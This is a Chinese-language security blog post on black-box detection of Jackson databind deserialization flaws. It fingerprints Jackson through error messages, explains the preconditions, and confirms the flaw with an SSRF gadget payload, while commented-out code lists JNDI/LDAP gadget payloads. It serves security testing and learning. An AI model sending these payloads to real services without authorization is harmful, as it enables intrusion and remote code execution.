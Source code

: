 ```yaml
---
layout: post
title:  如何黑盒检测fasterxml jackson反序列化漏洞
subtitle: 黑盒检测检测jackson反序列化的步骤
tags: [jackson,websec,反序列化]
---
```


## 序
前段时间，fasterxml jackson又出新的反序列化的payload了，看看各家的通告。心里想着，啥时候能测到一个反序列化漏洞。

网上看到的分析，大部分都是分析payload的原理。但是作为一个只能黑盒盲测的选手，如何找到并判断出jackson漏洞呢？

## 识别jackson
由于是黑盒，我们需要猜测后端有没有用jackson。

### application/json
一个可能的点是，`Content-Type: application/json`，后端会处理json数据。但是后端用的什么来处理的，还需要判断。

### com.fasterxml.jackson
我们在post数据中随便输入数据`aaa`，发现后端返回的错误信息里面显示`com.fasterxml.jackson`，可以初步判断使用了jackson。

## 瞎测
由于之前没有碰到过jackson的实际案例，去网上搜索了一些分析文章，随便找了几个payload来测试，一顿复制粘贴。全部报错。
```
Exception in thread "main" com.fasterxml.jackson.databind.exc.MismatchedInputException: Cannot deserialize instance of `***` out of START_ARRAY token
``` 
## 深入理解

```java
public class TestMain {
    public static void main(String args[]) throws IOException {
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        //String json="{\"age\":10,\"name\":\"l1nk3r\",\"cc\":\"dd\",\"sex\":[\"com.mytest.MySex\",{\"sex\":100}]}";
        //String json="[\"org.springframework.context.support.FileSystemXmlApplicationContext\",{\"sex\":100}]";
        //String json="{\"age\":10,\"name\":\"l1nk3r\",\"aa\":[\"org.springframework.context.support.FileSystemXmlApplicationContext\",{\"sex\":100}]}";
        //String json = "[\"org.apache.xbean.propertyeditor.JndiConverter\", {\"asText\":\"ldap://localhost:1389/ExportObject\"}]";
        //String json="{\"age\":10,\"name\":\"l1nk3r\",\"aa\":[\"org.apache.xbean.propertyeditor.JndiConverter\", {\"asText\":\"ldap://127.0.0.1:1389/Obj\"}]}";
        String json="{\"age\":10,\"name\":\"bbb\",\"sex\":{\"sex\":1},\"aa\":[\"javax.swing.JEditorPane\", {\"page\":\"http://127.0.0.1:8000?23333\"}]}";

        //String json="{\"age\":10,\"name\":\"l1nk3r\",\"aa\":[\"com.oracle.wls.shaded.org.apache.xalan.lib.sql.JNDIConnectionPool\",{\"jndiPath\":\"ldap://127.0.0.1:1389/Exploit\"}]}";
        //People p2 = mapper.readValue(json, People.class);
        //String json = "[\"com.oracle.wls.shaded.org.apache.xalan.lib.sql.JNDIConnectionPool\",{\"jndiPath\":\"ldap://127.0.0.1:1389/Exploit\"}]";
        People p2 = mapper.readValue(json,People.class);
        //Object o2 = mapper.readValue(json,Object.class);
        System.out.println(p2);
    }
}
```
网络上面给出的样例更多是`Object o2 = mapper.readValue(json,Object.class)`，可以直接读array，所以没有报错，而我们直接拿array的数据基本都是报错的。知道这个点之后，我们后面就可以想想如何判断了。

### 存在条件
漏洞存在的条件，引用自[2]和[6]
```
在设置为下面三种方式时，可以触发反序列化:
enableDefaultTyping()
@JsonTypeInfo(use = JsonTypeInfo.Id.CLASS)
@JsonTypeInfo(use = JsonTypeInfo.Id.MINIMAL_CLASS)
```
```
1.Accepts JSON content sent by untrusted client (composed manually or by code you did not write and have no visibility or control over) — meaning that you can not constrain JSON itself that is being sent
2.Has at least one specific “gadget” class to exploit in the Java classpath: and specifically class from these that works with Jackson (most gadgets only work with specific library or libraries — most commonly reported ones for example only work with JDK serialization)
3.Enable polymorphic type handling for properties with nominal type of java.lang.Object (or one of small number of “permissive” tag interfaces; java.util.Serializable, java.util.Comparable)
4.Use version of Jackson that does not (yet) block “gadget” class in question (set of published exploits grows over time so it is a race between exploits and patches)
```
特别注意第3点，需要type为java.lang.Object，这也是为什么样例里面为Object.class，以及aa为Object aa的原因。

这些是必要条件，而我们实际黑盒测试时，并不能知道全部的条件，所以使用代码进行判断。


## 判断
在应用会返回错误信息的情况下，我们可以根据错误信息来获取相应的信息。如果没有，那就看运气盲测了。  

使用不存在的property来获取property信息，可以看到只有sex这个property
```
String json="{\"age\":10,\"name\":\"test\",\"sex\":{\"sex\":1,\"aa\":2},\"aa\":[\"javax.swing.JEditorPane\", {\"page\":\"http://127.0.0.1:8000?23333\"}]}";

Exception in thread "main" com.fasterxml.jackson.databind.exc.UnrecognizedPropertyException: Unrecognized field "aa" (class com.mytest.MySex), not marked as ignorable (one known property: "sex"])

```
继续判断上一层，(4 known properties: "aa", "name", "sex", "age"]
```
String json="{\"age\":10,\"name\":\"test\",\"sex\":{\"sex\":1},\"bb\":2,\"aa\":[\"javax.swing.JEditorPane\", {\"page\":\"http://127.0.0.1:8000?23333\"}]}";

Exception in thread "main" com.fasterxml.jackson.databind.exc.UnrecognizedPropertyException: Unrecognized field "bb" (class com.mytest.People), not marked as ignorable (4 known properties: "aa", "name", "sex", "age"])
```
由于我们的payload需要使用array，这里我们将name设为[]，可以看到java.lang.String类型，后续一个一个测试。
```
String json="{\"age\":10,\"name\":[],\"sex\":{\"sex\":1},\"aa\":[\"javax.swing.JEditorPane\", {\"page\":\"http://127.0.0.1:8000?23333\"}]}";

Exception in thread "main" com.fasterxml.jackson.databind.exc.MismatchedInputException: Cannot deserialize instance of `java.lang.String` out of START_ARRAY token
```
当测试到aa时，发现java.lang.Object
```
String json="{\"age\":10,\"name\":\"bbb\",\"sex\":{\"sex\":1},\"aa\":[],\"aab\":[\"javax.swing.JEditorPane\", {\"page\":\"http://127.0.0.1:8000?23333\"}]}";

Exception in thread "main" com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (END_ARRAY), expected VALUE_STRING: need JSON String that contains type id (for subtype of java.lang.Object)
```
由于rce payload可能会被拦截，或者确实模块，或者版本问题，这里我们使用一个ssrf的payload来盲测。
```
String json="{\"age\":10,\"name\":\"bbb\",\"sex\":{\"sex\":1},\"aa\":[\"javax.swing.JEditorPane\", {\"page\":\"http://127.0.0.1:8000?23333\"}]}";
```
最终，我们的http log可以看到请求。发现此处存在漏洞，进一步的利用可以使用marshalsec来利用。测试下来，三种写法下，这个payload的结果一样。

## 总结
jackson的反序列化漏洞利用存在条件，不是直接一顿盲测就可以的。只有清楚判断条件之后，才明白为什么会是这样的返回。需要找到java.lang.Object的property才可以。  

-- 那今天挖到jackson反序列化漏洞了吗？
-- 我不知道，你说呢？

## 引用
1. [Jackson-反序列化汇总](http://www.lmxspace.com/2019/07/30/Jackson-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%B1%87%E6%80%BB/)
2. [CVE-2020-8840](https://patrilic.top/2020/03/24/Jackson-databind%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%20(CVE-2020-8840)/)
3. [Exploiting the Jackson RCE: CVE-2017-7525](https://adamcaudill.com/2017/10/04/exploiting-jackson-rce-cve-2017-7525/)
4. [Jackson系列一——反序列化漏洞基本原理](https://www.mi1k7ea.com/2019/11/13/Jackson%E7%B3%BB%E5%88%97%E4%B8%80%E2%80%94%E2%80%94%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%9F%BA%E6%9C%AC%E5%8E%9F%E7%90%86/#0x01-Jackson%E7%AE%80%E4%BB%8B)
5. [FasterXML jackson-databind CVE](https://github.com/FasterXML/jackson-databind/issues?q=+label%3ACVE+)
6. [on-jackson-cves-dont-panic-here-is-what-you-need-to-know](https://cowtowncoder.medium.com/on-jackson-cves-dont-panic-here-is-what-you-need-to-know-54cd0d6e8062)

